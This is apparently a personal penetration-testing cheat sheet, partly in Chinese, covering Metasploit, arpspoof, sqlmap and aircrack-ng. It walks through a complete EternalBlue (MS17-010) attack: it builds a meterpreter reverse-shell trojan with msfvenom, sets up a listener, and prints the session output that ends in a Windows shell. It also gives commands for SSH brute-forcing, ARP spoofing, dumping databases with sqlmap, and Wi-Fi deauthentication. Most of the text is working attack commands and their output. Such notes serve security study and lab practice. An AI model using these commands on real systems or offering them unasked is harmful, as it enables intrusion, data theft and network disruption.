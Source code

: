 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 



## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```





# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发
```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。
```bash
arpspoof -i eth0 -t target -r host
```



# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```



# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```
开启网卡监听模式

```bash
airmon-ng start wlan0
```
使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```
|符号|意义|
|------|------|
| BSSID | AP端的MAC地址 |
| PWR   | 信号强度，数字越小越好 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH | 对应路由器的所在频道 |
| ESSID | 对应路由器的名称 |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w /path/to/file --bbsid <bbsid> wlan0mon
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP MAC address> -c <client address> wlan0mon
```

